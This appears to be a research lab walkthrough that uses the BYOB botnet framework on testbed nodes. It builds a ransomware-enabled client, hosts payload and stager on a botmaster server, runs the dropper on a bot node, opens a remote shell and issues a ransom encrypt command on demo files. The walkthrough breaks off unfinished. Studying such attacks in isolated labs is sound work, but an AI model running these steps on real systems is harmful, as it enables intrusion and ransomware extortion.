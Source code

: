 ## Ransomware Attack
The data is encrypted through a ransomware by botmaster (`botmaster` in our case) and the files can only be seen if decrypted from bot nodes (`b1` in our case).

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'ransom' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Test Files Creation
For demo purposes I have made `test.txt`, `test_dir/` on `b1` node.

```shell
rishitsaiya@b1:~$ ls
jIJ test_dir test.txt

rishitsaiya@b1:~$ cd test_dir/
rishitsaiya@b1:~/test_dir$ ls
test.txt
rishitsaiya@b1:~/test_dir$ cat test.txt 
This is a test file.
```

#### Random Key Pair Generation
We are using the keys generated from CryptoTools [https://cryptotools.net/rsagen] with a 2048 key length.

Let us call the keys _pub_ & _priv_ for our case. 

Usage line in `ransom.py` [here](https://github.com/STEELISI/DISCERN/blob/6d8fb527022693f06ef40d387ac0989e2c8f3456/byob/byob/modules/ransom.py#L63)
```shell
usage = 'ransom <encrypt/decrypt/payment> <file_name> [pub key] [priv key]'
```

A command should look like this
```
ransom encrypt test.txt MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...IDAQAB MIIEpQIBAAKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...+kCUsXHpgh8oE=
```

#### Entering ransom commands through byob
On botmaster node where the server is running, type the command:

```shell
[ 0 @ /home/rishitsaiya ]>ransom encrypt test.txt pub priv
```

It should look like this.

#### - To be Continued -
